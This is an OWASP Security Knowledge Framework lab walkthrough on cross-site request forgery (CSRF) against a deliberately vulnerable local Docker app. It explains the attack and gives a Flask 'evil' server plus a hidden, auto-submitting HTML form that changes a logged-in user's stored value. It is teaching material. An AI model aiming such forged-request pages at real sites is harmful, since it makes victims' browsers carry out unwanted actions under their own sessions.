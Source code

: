 # KBID 5 - CSRF

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:cross-site-request-forgery
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cross-site-request-forgery
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin  
password:  admin
{% endhint %}

![](.gitbook/assets/screen-shot-2019-03-04-at-21.00.48.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.01.09.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.01.51.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.14.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.28.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Cross-Site\_Request\_Forgery\_\(CSRF\)" %}



